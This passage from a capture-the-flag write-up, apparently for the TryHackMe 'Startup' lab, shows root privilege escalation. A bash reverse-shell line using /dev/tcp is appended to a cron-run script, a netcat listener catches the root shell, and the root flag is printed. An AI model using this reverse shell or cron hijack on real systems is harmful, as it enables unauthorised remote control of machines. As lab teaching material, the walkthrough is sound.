 Yes we can, let's try to put a [Reverse Shell](../../3%20-%20Tags/Hacking%20Concepts/Reverse%20Shell.md) in there :

```bash
lennie@startup:/etc$ cat print.sh 
#!/bin/bash
echo "Done!"
bash -c 'exec bash -i &>/dev/tcp/10.8.162.183/4444 <&1'
```

Now we open our [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener, then wait for the cronjob to be executed automatically :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/THM/CHALLENGES/Easy/Startup]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.8.162.183] from (UNKNOWN) [10.10.68.10] 33218
bash: cannot set terminal process group (1595): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# cat /root/root.txt
cat /root/root.txt
THM{f963aaa6a430f210222158ae15c3d76d}
```

And we have the **root flag**.